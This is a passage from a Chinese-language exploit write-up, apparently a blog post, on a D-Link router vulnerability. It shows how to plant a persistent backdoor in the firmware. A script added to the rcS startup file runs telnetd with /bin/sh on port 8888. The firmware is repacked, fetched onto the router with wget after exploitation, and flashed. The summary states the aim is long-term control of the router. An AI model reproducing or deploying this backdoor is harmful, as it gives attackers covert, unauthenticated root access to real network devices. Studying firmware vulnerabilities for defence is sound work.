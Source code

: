 ![](https://mmbiz.qpic.cn/mmbiz_png/wbFNMtoYNOtIG0ZWCWkgic6t1bJ8ooVuvmnzaPpnYrRliabv3mmpqopwnnELXdSNv8M2TEpI0XUQ23SDXxbc0uRw/640?wx_fmt=png)  

现在会在其目录下发现 fmk 目录，进入`fmk/rootfs`可以见到路由器的文件系统。进入`etc/init0.d/`会发现 rcS 文件，对固件的改动就在这里面。  

![](https://mmbiz.qpic.cn/mmbiz_png/wbFNMtoYNOtIG0ZWCWkgic6t1bJ8ooVuvDGapaOsDuClkGcWLRzyrdJAqvOWFQnLDkKwwHdxQ1SkmK0CfO4esSQ/640?wx_fmt=png)

追加 rcS 文件`/etc/init0.d/fir.sh`，fir.sh 为自己创建的脚本。

![](https://mmbiz.qpic.cn/mmbiz_png/wbFNMtoYNOtIG0ZWCWkgic6t1bJ8ooVuvAFXMwBNibX1SBaZP68kZ3Gz7onj5thjibRnOpn19pE8drEuawff8jHfQ/640?wx_fmt=png)

下面为 fir.sh 脚本内容：

```
#!/bin/sh
min=1
while :
do
    telnetd -l /bin/sh -p 8888
    sleep 1h
    echo $min
done
```

返回 fmk 的同级目录，使用`firmware-mod-kit/build-firmware.sh`即可完成固件打包。

![](https://mmbiz.qpic.cn/mmbiz_png/wbFNMtoYNOtIG0ZWCWkgic6t1bJ8ooVuvSILJFJ4iba4iaZVS4lnhc2K1VySGe81iaVEmKqsHv1UGXkuzpRP1vJ0AQ/640?wx_fmt=png)

`python-m SimpleHTTPServer 8080`搭建起一个简单的 web 服务。将改好的 dlink.sh 和固件放入 web 服务目录下。

使用漏洞利用登录到 telnet，进入 tmp 目录使用 wget 请求 dlink.sh。

![](https://mmbiz.qpic.cn/mmbiz_png/wbFNMtoYNOtIG0ZWCWkgic6t1bJ8ooVuvm8aZ41E2wFR3nQ6nfmIPh56Thiak4VPrCCb4ibs2C3SRnEN7KmUI5sOw/640?wx_fmt=png)

运行 dlink.sh，固件刷新需要稍等几分钟。

![](https://mmbiz.qpic.cn/mmbiz_png/wbFNMtoYNOtIG0ZWCWkgic6t1bJ8ooVuvZib1dd1pfEdH1afYZw8C8GQibaYLb9jSJIrga21tWeicCiceyC5QPIGVcg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/wbFNMtoYNOtIG0ZWCWkgic6t1bJ8ooVuvE9FHDUSx7X5jIfrhZcz95Giah2ZqrG6CDV9x5ibUYNogN34mQKx2C7pw/640?wx_fmt=png)

看上去是更新成功了，使用 nmap 扫描一下，固件里面的时间和版本号根据需求搜索更改即可。

![](https://mmbiz.qpic.cn/mmbiz_png/wbFNMtoYNOtIG0ZWCWkgic6t1bJ8ooVuveq7Z1ib9rXJwO9RTQwems8g0bQAta98CpGHs01N8c1soFonnibxIl1zg/640?wx_fmt=png)

尝试使用这个端口号登录 telnet，使用 ps 命令查看进程，发现固件已被更新。  

![](https://mmbiz.qpic.cn/mmbiz_png/wbFNMtoYNOtIG0ZWCWkgic6t1bJ8ooVuvibMbyuQWOrupa8PCnrcmMMu98VM5wjJLiaChTZ96zglKKAw0RIT0troA/640?wx_fmt=png)

**- 06 -**

**总结**

以上便是本次漏洞分析利用的全部内容，这个漏洞相对来说比较简单，在已爆出 cve 的情况下分析利用漏洞所占时间并不是很多，更多的时间是花在例如：寻找验证固件更新脚本上。在成功利用漏洞的基础上，添加了后门提高了对路由器的长久稳定控制。

cve 官网并未爆出，822A1 版本的路由器受到影响，可以先使用 IDA 分析，确认有漏洞之后在使用仿真模拟确认路由器是否真的存在这个漏洞。这种方式快捷简单、无需时间等待和经济压力。
